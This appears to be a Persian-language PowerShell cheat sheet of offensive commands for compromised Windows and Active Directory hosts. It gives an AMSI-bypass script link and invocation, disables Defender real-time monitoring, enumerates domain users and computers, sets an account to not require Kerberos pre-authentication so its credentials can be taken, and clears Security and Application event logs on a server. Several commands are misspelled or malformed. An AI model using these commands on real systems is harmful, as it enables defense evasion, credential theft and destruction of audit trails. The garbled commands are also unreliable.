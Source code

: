 ```text
https://raw.githubusercontent.com/kmkz/Pentesting/master/AMSI-Bypass.ps1
. .\AMSI-Bypass.ps1
Invoke-AmsiBypass
```

### غیرفعال سازی realtimemonitoring

```text
powershell -command set-mpppreference -Disable realtimemonitoring $true
```

### لیست تمامی کاربران

```text
$users = New-Object DirectoryServices.DirectorySearcher
$users.Filter = "(&(objectclass=user))"
$users.SearchRoot = ''
$users.FindAll()
```

### لیست تمامی domain ها

```text
$computers = New-Object DirectoryServices.DirectorySearcher
$computers.Filter = "(&(objectclass=computer))"
$computers.SearchRoot = ''
$computers.FindAll()
```


### دریافت اطلاعات هویتی AD با استفاده از doesnotrequirepreauth

```text
Set-ADAccountControl -identity jorden -doesnotrequirepreauth 1
```

### حذف گزارشات امنیت و برنامه ها\(برای SVR01\)

```text
Get-EventLog -list 
Clear-EventLog -logname Application, Security -computername SVR01 
```

### استخراج نسخه سیستم عامل در درون فایل CSV

```text
Get-WmiObject -class win32 operatingsystem | select -property ' | 
export-csv c:\os.txt
```

### لیست سرویس های در حال اجرا

```text
Get-Service | where_object {$_.status -eq "Running"} 
```
